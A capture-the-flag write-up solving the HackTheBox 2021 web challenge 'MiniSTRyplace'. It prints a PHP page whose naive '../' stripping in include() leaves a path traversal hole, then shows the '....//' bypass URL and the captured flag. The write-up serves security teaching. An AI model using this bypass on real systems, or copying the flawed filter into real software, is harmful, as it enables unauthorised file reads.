 # CTF HackTheBox 2021 Cyber Apocalypse 2021 - MiniSTRyplace

Category: Web, Points: 300

![info.JPG](images/info.JPG)

And attached file: [web_ministryplace.zip](web_ministryplace.zip)

# MiniSTRyplace Solution

Let's start the docker and browse it:

![index.JPG](images/index.JPG)

By browsing on attached zip we can see the file ```index.php```:
```php
<html>
    <header>
        <meta name='author' content='bertolis, makelaris'>
        <title>Ministry of Defence</title>
        <link rel="stylesheet" href="/static/css/main.css">
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootswatch/4.5.0/slate/bootstrap.min.css"   >
    </header>

    <body>
    <div class="language">
        <a href="?lang=en.php">EN</a>
        <a href="?lang=qw.php">QW</a>
    </div>

    <?php
    $lang = ['en.php', 'qw.php'];
        include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
    ?>
    </body>
</html>
```


The line
```php
...
include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
...
```

Replace all ```../``` from string, It's mean if we send ```http://138.68.167.11:30616/index.php?lang=../flag``` It will be ```http://138.68.167.11:30616/index.php?lang=/flag```.

But if we send ```....//``` It will be ```../``` !

Like that we can get the flag, We know the flag located on ```../../flag``` (According the attached zip file) So let's send ```http://138.68.167.11:30616/index.php?lang=....//....//flag```:

![flag.JPG](images/flag.JPG)

And we get the flag: ```CHTB{b4d_4li3n_pr0gr4m1ng} ```.